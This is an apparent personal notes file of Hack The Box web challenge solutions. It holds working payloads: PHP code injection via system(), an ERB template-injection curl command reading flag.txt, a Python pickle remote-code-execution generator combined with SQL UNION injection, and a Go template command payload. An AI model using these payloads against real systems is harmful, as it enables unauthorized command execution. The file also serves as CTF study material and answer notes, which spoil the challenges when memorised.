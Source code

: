 **01 web_lovetok:**
    Link: https://app.hackthebox.com/challenges/lovetok
    Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
    Explanation: 
    A. http://178.62.11.21:30505/: This is the base URL.
    B. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
    C. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
    D. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
    E. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
    Link: https://app.hackthebox.com/challenges/toxic
    Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
    Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
 
**03 Neonify:**
    Link: https://app.hackthebox.com/challenges/neonify
    Hint: Encode With url Encoding.
           <%= File.open('flag.txt').read %> # Read file
    Solution: curl 159.65.20.166:32127 \        
		-s -X POST -d 'neon=a
		%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
    Explanation: https://drt.sh/posts/htb-neonify/
    
**05 COP:**
    Link: https://app.hackthebox.com/challenges/cop
    Hint: No Flag value in DB, use script
		import pickle
		import base64
		import os
		payload = 'cp flag.txt application/static/.'
		class RCE:
		    def __reduce__(self):
			return os.system, (payload,)
		if __name__ == '__main__':
		    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
	Steps:
		run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
    Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    Link: https://app.hackthebox.com/challenges/renderquest
    Hint: Prepare A malicious Like that can have Command in it
	A. go https://webhook.site/    	
	B. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	C. Modify it as you go
    Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83



